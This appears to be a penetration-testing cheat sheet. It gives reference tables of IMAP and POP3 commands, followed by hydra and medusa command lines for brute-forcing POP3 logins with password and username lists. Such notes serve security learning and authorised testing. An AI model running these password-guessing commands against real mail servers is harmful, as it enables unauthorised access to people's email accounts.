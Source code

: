 | Command               | Description                                                             |
|-----------------------|-------------------------------------------------------------------------|
| LOGIN username password | User's login.                                                           |
| LIST "" *             | Lists all directories.                                                  |
| CREATE "INBOX"        | Creates a mailbox with a specified name.                                |
| DELETE "INBOX"        | Deletes a mailbox.                                                      |
| RENAME "ToRead" "Important" | Renames a mailbox.                                                   |
| LSUB "" *             | Returns a subset of names from the set of names that the User has declared as being active or subscribed. |
| SELECT INBOX          | Selects a mailbox so that messages in the mailbox can be accessed.      |
| UNSELECT INBOX        | Exits the selected mailbox.                                             |
| FETCH ID all        | Retrieves data associated with a message in the mailbox.                |
| FETCH ID BODY[]        | Retrieves email body               |
| CLOSE                 | Removes all messages with the Deleted flag set.                         |
| LOGOUT                | Closes the connection with the IMAP server.                             |

- POP3 Commands

| Command    | Description                                                     |
|------------|-----------------------------------------------------------------|
| USER username | Identifies the user.                                            |
| PASS password | Authentication of the user using its password.                  |
| STAT         | Requests the number of saved emails from the server.            |
| LIST         | Requests from the server the number and size of all emails.     |
| RETR id      | Requests the server to deliver the requested email by ID.       |
| DELE id      | Requests the server to delete the requested email by ID.        |
| CAPA         | Requests the server to display the server capabilities.         |
| RSET         | Requests the server to reset the transmitted information.       |
| QUIT         | Closes the connection with the POP3 server.                     |

## Attacks 

### Bruteforce POP3
```bash
# hydra
hydra -l username -P /path/to/password-list.txt pop3://target-ip
hydra -L /path/to/usernames.txt -P /path/to/password-list.txt pop3://192.168.1.10

# medusa 
medusa -h target-ip -u username -P /path/to/password-list.txt -M pop3
medusa -h 192.168.1.10 -U /path/to/usernames.txt -P /path/to/password-list.txt -M pop3
```
